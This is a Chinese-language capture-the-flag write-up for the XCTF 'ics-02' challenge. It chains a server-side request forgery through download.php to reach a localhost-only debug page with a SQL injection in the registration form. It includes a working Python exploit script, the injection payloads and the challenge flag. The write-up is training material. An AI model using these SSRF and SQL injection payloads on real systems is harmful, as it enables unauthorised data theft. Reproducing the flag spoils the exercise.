

# ics-02

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=217628e4-d02f-4690-b8fe-30f410107d97_2)

期待集齐全套ics。

进到网站，一通乱点，发现只有右上角的文档中心可以点。可以下载一篇论文，下载下来却是php后缀。谁会把论文写php里啊？这个后缀肯定有问题。file命令看看是什么文件。

- file download.php
  > download.php: PDF document, version 1.3

pdf才正常。改后缀名打开，是讲ssrf的。这不会是暗示吧？先放一边，看看源码中的下载方式，里面总是藏着好东西，文件包含什么的。

```html
<a href="download.php?dl=ssrf">paper. </a>
```

这个链接可能是文件包含，又一次提到了ssrf。ssrf我可不会啊，知道是什么东西但是做的题不多。扫一波目录看看，发现secret目录。怎么又叫secret啊，以后干脆把这个名字跟robot.txt作为首选项得了。去到secret目录，发现开启了目录浏览，里面有两个文件：secret.php,secret_debug.php。

secret.php里是个调查问卷，全部选第一个后点击continue就来到了一个注册界面。注意此时的url发生了巨大变化。

- http://61.147.171.105:62778/secret/secret.php?s=2&rbCitizen=Y&rbAge=Y&rbResident=Y&rbFelony=rbFelony1&btnContinue=Continue

按照注册界面的要求填写信息，来到了注册成功界面。url同样发生了变化。

- http://61.147.171.105:62778/secret/secret.php?s=3&txtfirst_name=d&txtmiddle_name=d&txtLast_name=d&txtname_suffix=dd&txtdob=11%2F11%2F11&txtdl_nmbr=123456789&txtRetypeDL=123456789&btnContinue2=Continue

看见注册界面不搞sql注入我不是很认可。这次的sql注入过于明显了，我点击返回然后重新提交注册信息，直接显示sql中的key重复提示。但是这样是爆不出信息的，各种引号都来一下，这回竟然没有报错了。大智若愚的代码？先不管了，之前不还落了个secret_debug.php没看吗？

- You (IP地址) do not have access to this page..

给了ip地址加上之前各种ssrf的暗示，绝对是ssrf有关漏洞了。download.php属于内网，可以对自身发起请求，我们让download.php对secret_debug.php发起请求，那发送什么呢？肯定先要测试一下看看思路对不对。



虽然提示了文件不存在，但是我们仍然可以得到想要的页面内容，ssrf实锤。此处做了url编码的原因是download.php会在&号前加上.pdf，导致后面的内容被截断。编码后再在最后加一个&，让服务器解码后在最后的&加上pdf，就不会截断了。

然而这题的难点不在ssrf，而是sql。看起来很简单的代码其实并不。先放wp。

```python
import requests
import random
import urllib

url = 'http://61.147.171.105:62778/download.php'

# subquery = "database()"
# ssrfw
# subquery = "select group_concat(table_name) from information_schema.tables where table_schema='ssrfw'"
# etcYssrf,users
# subquery = "select group_concat(column_name) from information_schema.columns where table_name='cetcYssrf'"
# secretName,value
# subquery = "select secretName from cetcYssrf LIMIT 1"
# secretname -> flag
subquery = "select value from cetcYssrf LIMIT 1"
# value -> flag{cpg9ssnu_OOOOe333eetc_2018}

id = random.randint(1, 10000000)

dl = ('http://127.0.0.1/secret/secret_debug.php?' +
        urllib.parse.urlencode({
            "s": "3",
            "txtfirst_name": "A','b',("+subquery+"),'c'/*",
            "txtmiddle_name": "B",
            "txtLast_name": "C",
            "txtname_suffix": "D.",
            "txtdob": "*/,'01/10/2019",
            "txtdl_nmbr": id,
            "txtRetypeDL": id
            }) + "&")

r = requests.get(url, params={"dl": dl})
print(r.text)
```

闭合为单引号，A'闭合first_name，'b'对应接下来的middle_name，subquery对应Last_name，因为在成功注入的界面中，只有first_name,last_name和dob会回显。dob有格式要求，first_name需要闭合，那只有last_name处回显爆的信息了。'c'对应name_suffix，然后多行注释掉原本的middle_name,last_name和name_suffix，到dob停止注释，原因跟上面说的一样，有格式限制。id正常填。不知道大佬们怎么盲注看出来这个的。

- ### Flag
  > flag{cpg9ssnu_OOOOe333eetc_2018}